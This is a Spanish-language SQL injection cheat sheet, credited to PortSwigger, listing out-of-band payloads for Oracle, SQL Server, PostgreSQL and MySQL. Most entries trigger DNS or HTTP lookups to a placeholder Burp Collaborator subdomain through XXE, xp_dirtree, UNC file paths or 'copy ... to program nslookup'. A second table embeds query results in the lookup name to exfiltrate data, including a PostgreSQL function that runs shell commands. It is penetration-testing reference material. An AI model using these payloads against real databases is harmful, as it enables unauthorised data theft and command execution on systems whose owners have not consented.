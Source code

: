 ### DNS LOOKUP

|DBMS|PAYLOAD|
|:-----:|:-----:|
|Oracle|La siguiente técnica aprovecha una vulnerabilidad de entidad externa XML ( [XXE](https://portswigger.net/web-security/xxe) ) para activar una búsqueda de DNS. Se ha parcheado la vulnerabilidad, pero existen muchas instalaciones de Oracle sin parche: `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`  La siguiente técnica funciona en instalaciones de Oracle con parches completos, pero requiere privilegios elevados: `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')`|
|Microsoft|`exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`|
|PostgreSQ|`copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`|
|MySQL|Las siguientes técnicas funcionan solo en Windows: `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')` `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`|

### DNS LOOKUP CON EXFILTRACION DE DATOS

|DBMS|PAYLOAD|
|:----:|:----:|
|Oracle|`SELECT extractvalue(xmltype('\<\?xml version="1.0" encoding="UTF-8"\?><!DOCTYPE root [ <!ENTITY \% remote SYSTEM "http://'\|\|(SELECT YOUR-QUERY-HERE)\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"\> \%remote;\]\>'),'/l') FROM dual`|
|Microsoft|`declare\ @p varchar(1024);set \@p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+\@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`|
|PostgreSQL|`create OR replace function f() returns void as \$\$ <br /> declare c text;  <br /> declare p text;  <br />begin  <br />SELECT into p (SELECT YOUR-QUERY-HERE);  <br />c := 'copy (SELECT '''') to program ''nslookup '\|\|p\|\|'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';  <br />execute c;  <br />END;  <br />$$ language plpgsql security definer;  <br />SELECT f();`|
|MySQL|The following technique works on Windows only:  <br /> `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`|

**Fuente [SQLi cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)**